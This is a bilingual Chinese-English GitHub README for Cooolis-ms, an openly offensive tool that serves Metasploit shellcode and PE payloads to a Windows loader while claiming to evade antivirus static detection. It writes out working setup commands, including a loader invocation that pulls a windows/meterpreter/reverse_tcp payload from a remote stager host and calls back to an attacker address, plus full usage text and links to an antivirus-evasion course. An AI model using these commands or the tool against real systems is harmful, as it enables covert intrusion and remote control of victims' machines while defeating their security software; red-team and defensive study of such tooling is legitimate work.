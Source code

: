 # Cooolis-ms

Cooolis-ms 是一个支持Metasploit Framework RPC的一个服务端，用于给Shellcode和PE加载器工作，在一定程度上绕过反病毒软件的静态查杀，同时可以让Cooolis-ms服务端与Metasploit服务器进行分离。


Cooolis-ms is a server that supports the Metasploit Framework RPC. It is used to work with the Shellcode and PE loader. To some extent, it bypasses the static killing of anti-virus software, and allows the Cooolis-ms server to communicate with the Metasploit server. Separation.

## 该项目的优点

- 体积小（>=100KB）
- 支持Metasploit所有Payload
- 支持Windows XP + / Windows 2003 +
- 参数设置方便
- 单文件
- 分离的

## 你可以参考这里，写出自己的好项目

- [静态恶意代码逃逸（第一课）](https://payloads.online/archivers/2019-11-10/1)
- [静态恶意代码逃逸（第二课）](https://payloads.online/archivers/2019-11-10/2)
- [静态恶意代码逃逸（第三课）](https://payloads.online/archivers/2019-11-10/3)
- [静态恶意代码逃逸（第四课）](https://payloads.online/archivers/2019-11-10/4)
- [静态恶意代码逃逸（第五课）](https://payloads.online/archivers/2019-11-10/5)

[![Cooolis](http://img.youtube.com/vi/xMYZbvn53aY/0.jpg)](https://www.youtube.com/embed/xMYZbvn53aY "Cooolis")

## How to install | 如何安装

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms
$ pip3 install -r requirements.txt
$ python3 server.py -h
```

## How to use |  如何使用

你需要先启动Metasploit RPC服务端：

You need to start the Metasploit RPC server first:

IP : 172.16.143.1

```
$ msfrpcd -U msf -P msf -u /api/1.0/
```

接着需要启动Cooolis-ms，使得它连接到RPC，并且监听一个端口，用来发送载荷：

Then you need to start Cooolis-ms so that it connects to the RPC and listens on a port to send the payload:

IP : 172.16.143.1

```
$ python3 server.py -U msf -P msf -H 127.0.0.1 -p 55553 -s -v -l 8899 -S 172.16.143.1
```

IP : 172.16.143.2

```
Windows > ConsoleApplication5.exe -p windows/meterpreter/reverse_tcp -s LHOST=172.16.143.1,LPORT=8876,Format=dll -H 172.16.143.1 -P 8899 -c password
```

## Cooolis-ms server

```
usage: Cooolis-ms [-h] -U USERNAME -P PASSWORD [-H HOST] [-p PORT] [-S SERVER]
                  [-l LISTEN] [-u URI] [-t {exe,ruby,c,dll,vbs,powershell}]
                  [-s] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -U USERNAME, --username USERNAME
                        Metasploit web service username
  -P PASSWORD, --password PASSWORD
                        Metasploit web service password
  -H HOST, --host HOST  Metasploit web service host, Default: localhost
  -p PORT, --port PORT  Metasploit RPC service port, Default: 55553
  -S SERVER, --server SERVER
                        Payload sender listen host, Default: localhost
  -l LISTEN, --listen LISTEN
                        Payload listen port, Default: 1111
  -u URI, --uri URI     Metasploit RPC service uri, Default: /api/1.0/
  -t {exe,ruby,c,dll,vbs,powershell}, --type {exe,ruby,c,dll,vbs,powershell}
                        Payload Type
  -s, --ssl             Enable ssl, Default: True
  -v, --versobe         Enable debug
```

## Cooolis-ms Loader


![](./pic/demo.png)

```
[*]Usage : Cooolis-ms.exe -p [PAYLOAD] -s [PAYLOAD OPTIONS] -c [RC4 PASSWORD] -H [Stager Host] -P [Stager Port]
         -p [PAYLOAD]    MSF PAYLOAD TYPE
         -s [PAYLOAD OPTIONS]    MSF PAYLOAD OPTIONS
         -c [RC4 PASSWORD]       Startup RC4 Trans Stager
         -H [Stager Host]        Cooolis-Server Host
         -P [Stager Port]        Cooolis-Server Port
         -D [Default]
[*]Example : Cooolis-ms.exe -p windows/meterpreter/reverse_tcp -s LHOST=192.168.1.1,LPORT=1122 -H 192.168.2.1 -P 4444
```

## About other | 关于其他

~~后续我将会写出Windows平台下的通用加载器客户端集合到这个项目中。~~


~~Subsequent I will write a collection of generic loader clients for the Windows platform into this project.~~

如果你觉得这个项目不错，那就给一个Star～

If you think this project is good, give a Star.

## issue

[I have a question](https://github.com/Rvn0xsy/Cooolis-ms/issues)

## LICENSE

[GNU General Public License v3.0](https://github.com/Rvn0xsy/Cooolis-ms/blob/master/LICENSE)
